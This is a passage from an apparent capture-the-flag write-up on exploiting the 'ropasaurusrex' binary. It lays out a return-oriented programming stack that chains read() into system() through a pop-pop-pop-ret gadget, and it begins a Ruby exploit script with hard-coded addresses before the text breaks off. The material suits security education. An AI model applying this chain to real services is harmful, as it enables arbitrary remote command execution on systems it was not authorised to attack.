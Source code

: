 This lets us remove between 1 and 4 arguments off the stack before executing the next function. Perfect!

And remember, if you're doing this yourself, ensure that the pops are at consecutive addresses. Using <tt>egrep</tt> to find them can be a little dangerous like that.

So now, if we want a triple <tt>pop</tt> and a <tt>ret</tt> (to remove the three arguments that <tt>read()</tt> used), we want the address <tt>0x80484b6</tt>, so we set up our stack like this:

<pre>
+----------------------+
|         ...          |
+----------------------+

+----------------------+ &lt;-- Start of system()'s frame
|      void *arg       | - 0x08049530 (buf)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

+----------------------+ &lt;-- Start of read()'s frame
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (buf)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  | - 0x080484b6
+----------------------+

+----------------------+
|         ...          |
+----------------------+
</pre>

We also update our exploit with a <tt>s.read()</tt> at the end, to read whatever data the remote server sends us. The current exploit now looks like:

<pre>
<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">localhost</span><span class="Special">&quot;</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">&quot;</span><span class="Special">\0</span><span class="Special">&quot;</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>